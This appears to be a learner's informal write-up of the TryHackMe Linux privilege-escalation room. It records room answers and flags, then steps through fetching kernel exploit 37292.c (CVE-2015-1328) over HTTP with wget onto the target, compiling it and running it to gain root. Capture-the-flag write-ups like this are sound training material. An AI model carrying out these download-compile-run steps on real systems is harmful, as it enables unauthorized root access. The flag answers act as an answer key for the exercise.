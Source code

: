 
tryHackme:
<https://tryhackme.com/room/linprivesc>
#  Answer the questions below
What is the hostname of the target system?
wade7363-hostname

What is the Linux kernel version of the target system?

3.13.0-24-generic
cat /proc/version

What Linux is this?

ubuntu 14.04 LTS
/etc/issue

What version of the Python language is installed on the system?
python --version

2.7.6
What vulnerability seem to affect the kernel of the target system? (Enter a CVE number)

CVE-2015-1328
<https://nvd.nist.gov/vuln/detail/CVE-2015-1328>
google search: 3.13.0-24-generic cve
1st result

# Task 4

Answer the questions below
find and use the appropriate kernel exploit to gain root privileges on the target system.
No answer needed-
Answer the questions below
find and use the appropriate kernel exploit to gain root privileges on the target system.-

Steps:
I used my kali machine. firstly connected to the vpn and then ssh to attack machine.
how?
- to get vpn file..go to tryhackme-click on top righthand side icon(an image)- access. There u will find vpn file.
- To access it on kali, put it on shared folder on windows c:/githubciscopackettracer/sharedmitu1
- open shared folder in kali and copy the path to vpn
- create a new vpn in kali- go to + vpn and then last option(saved vpn) and save it here.
- open the vpn from top right side
-  now we have to get the exploit file on kali. My foxfire was not loading..so I used windows.
- - search for the same kernel  exploit cve on google and download it.
- - put it in the same shared folder and access it on kali

- To download the exploit on the target:
- - first ssh it: ssh@ip of the attck amchine(given by tryhackme) karen
- - give the pwd too
- - go to next command terminal in kali and start http server:
- go to shared folder where file is - and then run http server
python3 -m http.server(by default it starts on 8000 port)
-- open 1 more terminal go to temp folder and get  that file by: wget  <my machine ip> :8000/<filename>(37292.c)
eg: wget 10.18.24.126:8000/37292.c
- now u get the exploit on target machine.
- need to compile and run it
- gcc 37292.c -o ofc(new file name)
- chmod +x ofc
- now run it: ./ofc
- done
- check whoami- u will get root
- 




What is the content of the flag1.txt file?

Answer format: THM-28392872729920
Command:
- once u get access to root, find the file flag1.txt
find / -type f -name flag1.txt
- Ans: /home/matt/flag1.txt
- cat it 


# Task 6

ref: <https://www.youtube.com/watch?v=7WQndt-1WzE&t=123s>

Answer the questions below
How many programs can the user "karen" run on the target system with sudo rights?
3
What is the content of the flag2.txt file?

THM-402028394

process:


How would you use Nmap to spawn a root shell if your user had sudo rights on nmap?

Answer format: **** **** *************
What is the hash of frank's password?

Answer format: ****.************************************************.*****/*******************.**************************


# Task7

